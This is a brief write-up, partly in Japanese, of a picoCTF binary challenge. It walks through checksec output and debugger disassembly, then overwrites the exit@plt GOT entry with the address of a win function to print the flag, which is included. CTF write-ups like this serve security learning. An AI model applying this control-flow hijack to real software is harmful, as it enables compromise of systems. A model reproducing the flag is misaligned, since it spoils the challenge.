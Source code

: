 Attachment:

- vuln (ELF 32-bit)
- vuln.c

<br />
<pre>
$ checksec vuln
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)   <---
</pre>


<br />
### Solution

<pre>
gef➤  x win
0x80485c6 <win>:	0x53e58955

gef➤  disas main
:
(snip)
:
   0x080486f8 <+153>:	push   0x0
   0x080486fa <+155>:	call   0x8048460 <exit@plt>

gef➤  disas 0x8048460
Dump of assembler code for function exit@plt:
   0x08048460 <+0>:	jmp    DWORD PTR ds:0x804a01c
   0x08048466 <+6>:	push   0x20
   0x0804846b <+11>:	jmp    0x8048410
</pre>

0x804a01cを、0x80485c6 (win)に書き換えればOK。

<br />
10進数で入力します。

<pre>
$ ./vuln 
You can just overwrite an address, what can you do?

Input address

134520860
Input value?

134514118
The following line should print the flag

picoCTF{A_s0ng_0f_1C3_and_f1r3_db12a9ed}
</pre>
